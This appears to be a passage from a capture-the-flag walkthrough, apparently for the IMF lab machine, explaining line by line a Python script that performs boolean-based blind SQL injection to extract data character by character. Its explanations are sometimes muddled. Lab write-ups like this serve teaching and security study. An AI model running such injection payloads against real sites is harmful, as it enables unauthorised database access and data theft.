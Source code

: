 for position_character in range(1, 30): We will search from 0 to 30 assuming that the total number of characters in a database is not greater than 30. For example, SQL database names are 3 characters long, so if we only want to search for those, we can search from 0 to 30.

for character in characters: Here, we will fuzz by characters, as we mentioned earlier that we will use lowercase letters, underscores, and we can also add numbers if we want.

sqli = main_url + f"'+and+(select+substring(pagename,{position_character},1)+from+pages+limit+{dbs},1)='{character}": With this line, we will define the SQL injection. It is basically what the program's flow sends. Here we can search by databases, tables, or columns depending on what we want. Instead of using variables like %d or %s, we will add f and then represent our search with {position_character} because we will search for characters.

16

```python
p1.status(sqli)
```
We are going to define this progress bar to see the progress of sqli.

17


```python
r = requests.get(sqli, cookies=cookies)
```

We are going to store the response in r so that it shows us the response at all times. With requests, we tell it to process the request through GET to main_url, which we have already defined. As we defined in sqli as main_url + f, we are also defining here what it should do, which is to make a GET request to main_url with the previously assigned session cookie.

18

```python
    if "Welcome to the IMF Administration." in r.text:
                    database += character
                    p2.status(database)
                    break

```
if "Welcome to the IMF Administration." in r.text: Here we are telling that when if ```Welcome to the IMF Administration.``` is true, then it means that the character we fuzzed is correct, and the response is coming from the server side.


19
where

```database += character```

So, for example, when you detect ```"Welcome to the IMF Administration"``` and it is in the response from the server, what you have to think is that if the character is correct, then the database variable, which was not explained above, but basically is to store the databases and their names at all times, will be += to the characters, that is, to the database corresponding to the variable we wrote above or to the one that is not worth anything more than the character. So, if it is valid for the first position, which it will be because we are representing the variable ```"Welcome to the IMF Administration"```, when the character is valid, add that character to the variable that we did not specify above so that you can print it on the screen and adjust it based on what you are finding.

p2.status(database)

Now we are going to play with this progress bar so that it shows you the corresponding database at all times, in order to structure it in real time the values of the database.


break
This means "We need to make a break so it doesn't keep searching for the word we are currently fuzzing".


```